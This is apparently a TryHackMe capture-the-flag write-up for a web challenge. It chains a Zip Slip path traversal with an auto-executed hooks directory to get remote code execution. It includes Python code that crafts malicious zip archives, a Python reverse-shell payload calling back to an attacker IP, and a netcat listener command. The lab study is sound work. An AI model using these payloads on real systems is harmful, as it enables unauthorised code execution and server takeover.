






# The Hollow Shell

Date: August 05, 2026

## Information

- Challenge: [The Hollow Shell](https://tryhackme.com/room/hh-thehollowshell-ddb582ac)
- Category: Web
- Difficulty: Medium
- Description:

```text
You find it on the beach: pretty, ordinary, the kind of thing nobody thinks to check. Slip something inside and hold it to your ear.

The Byte Lotus beachfront lets guests personalise their in-room display by uploading a shell — a little souvenir pack of shoreline ambiance. Staff publish them through the Shoreline Display portal, and once a shell is "held to the room's ear" it plays its shore. Slip past what the portal forgets to check, and the shell answers with a shell of your own.
```

## Solution

At first, the challenge gave me the URL `http://<MACHINE_IP>`, but I could not access it. After scanning the target with `nmap`, I found that the correct URL was `http://<MACHINE_IP>:5000` (port 5000).

When I opened the website, I saw a login page.



Then I checked the page source.



I found the credentials:

```text
user: concierge
pass: StayNoticed2024!
```

After logging in, I reached the dashboard. There were several interesting features:

- Upload only accepts `.zip` files.
- Every zip file must contain `shell.json`, which lists its assets.
- Allowed asset types: `png`, `jpg`, `gif`, `svg`, `css`, `json`.



After reading the challenge description again:

```text
... Slip something inside and hold it to your ear.
... Slip past what the portal forgets to check, and the shell answers with a shell of your own.
```

I thought the challenge was most likely about the `Zip Slip` vulnerability.

```text
Zip Slip is a security vulnerability that happens when an application extracts ZIP or TAR files without checking the file paths inside the archive. An attacker can include paths like ../ to write files outside the extraction directory. This can overwrite important files or upload malicious code, which may lead to privilege escalation or remote code execution (RCE).
```

The phrase `...what the portal forgets to check` also gave me another clue. After some testing, I found that the server only checked the files listed in `shell.json`, but it never checked the other files inside the uploaded zip archive.

To confirm this, I wrote the following Python script to create `slip.zip` containing:

```text
1 image: shell.png
1 file named "../slip_marker.txt"
1 shell.json that only lists shell.png as an asset
```

```python
import zipfile

with zipfile.ZipFile('slip.zip', 'w') as z:

    z.writestr('shell.json', '{"name":"zipSlip_test","assets":["shell.png"]}')
    z.writestr('shell.png', b'\x89PNG\r\n\x1a\n')
    z.writestr('../slip_marker.txt', 'zip slip write test\n')
```

After creating `slip.zip`, I uploaded it to the website and got this message:

```text
Shell 'zipSlip_test' brought ashore. Stored at shells/8e2e4994f963/ and held to the room's ear.
```

Then I checked the **Shells on display** page.



As expected, the file `../slip_marker.txt` was not stored inside a path like `shells/<random>/../slip_marker.txt`. Instead, it was extracted one directory higher.

-> Zip Slip + Path Traversal confirmed.

I also noticed another interesting message below the `HOLD IT TO THE ROOM'S EAR` button:

```text
A shell may include optional automation hooks — the theme worker applies these for you shortly after the shell comes ashore, so you don't have to touch each tablet by hand.
```

After some more testing, I discovered that the website had a `/hooks` directory, and it automatically executed every `.py` file inside it. (The server was written in Python, which can be quickly confirmed with Wappalyzer.)

Now everything became clear.

`Zip Slip` + `Path Traversal` + auto-executed `.py` files inside `/hooks`

-> Remote Code Execution (RCE)

I wrote the following Python script to create `evil.zip`, which places `exploit.py` into the `/hooks` directory using path traversal.

```python
import json
import zipfile

HOST = "<YOUR_IP>"
PORT = 4096

callback = f'''
import os
import pty
import socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(({HOST!r}, {PORT}))
for descriptor in (0, 1, 2):
    os.dup2(sock.fileno(), descriptor)
pty.spawn("/bin/bash")
'''

with zipfile.ZipFile("evil.zip", "w") as z:
    z.writestr('shell.json', '{"name":"Hacker","assets":[]}')
    z.writestr("../../hooks/exploit.py", callback)

print("evil.zip created")
```

After running the script, I got `evil.zip`.

On my machine, I started a listener.

```bash
nc -lvnp 4096
```

Then I uploaded `evil.zip` to the target website.



And I successfully got RCE.

The flag was located at:

```bash
/home/roomservice/flag.txt
```



## Flag

```text
THM{z1p_sl1pp3d_1nt0_a_sh3ll}
```

## Kill Chain

1. Recon: Use Nmap and find the real service running on port 5000.

2. Initial Access: View page source and find the credentials `concierge / StayNoticed2024!`.

3. Discovery: Upload a `.zip` file with `shell.json` and suspect a Zip Slip vulnerability.

4. Confirmation: Use Python's `zipfile` module to create an archive containing `../slip_marker.txt`. Upload it and see that the file is extracted one directory higher in **Shells on display**, confirming arbitrary file write.

5. Pivot: The UI mentions **automation hooks**, which leads to the discovery that the `/hooks` directory automatically executes `.py` files.

6. Exploit: Create a zip file containing `../../hooks/exploit.py` with a Python reverse shell payload.

7. RCE: Upload the archive. The worker automatically executes the payload and sends a reverse shell back through Netcat.

8. Post-Exploitation: Read the flag from `/home/roomservice/flag.txt`.

## What I learned?

- Zip Slip happens when a server extracts an archive without checking or sanitizing the file names inside it. If an attacker includes paths like `../`, they can write files outside the intended extraction directory, leading to arbitrary file write.

- Normal archive tools protect against path traversal. The Linux `zip` command automatically removes `../` when creating archives, so it cannot be used to build a Zip Slip payload. You need to use a programming library such as Python's `zipfile` module to manually craft archive entries with traversal paths.

- A single vulnerability is usually less dangerous than a chain of vulnerabilities. Arbitrary file write alone is often not enough, but when it is combined with an existing auto-load or auto-execute feature (like the `/hooks` directory automatically running `.py` files), it becomes a full RCE. During a pentest, always ask yourself: *"If I can write any file, is there somewhere on the server that will automatically read or execute it?"*

- Read every line in the UI carefully, even if it looks like normal instructions. The sentence about **automation hooks** looked like regular UX text, but it actually revealed the existence of a background worker and an auto-execution mechanism. This was the key that turned arbitrary file write into RCE.

- Validating one field does not mean all input is validated. The server only checked the files listed in `assets`, but it never validated every file inside the archive. The lesson is that validation should be applied to the entire input, not just the metadata.

- Testing is more valuable than guessing. Instead of only assuming the vulnerability existed, creating a test file (`slip_marker.txt`) and observing where it was extracted allowed me to confirm the behavior before building the real exploit.

- Viewing the page source is still a simple but effective recon step. Many applications accidentally expose sensitive information such as credentials, hidden endpoints, or developer comments in the HTML or JavaScript. It is always worth checking before trying more advanced techniques.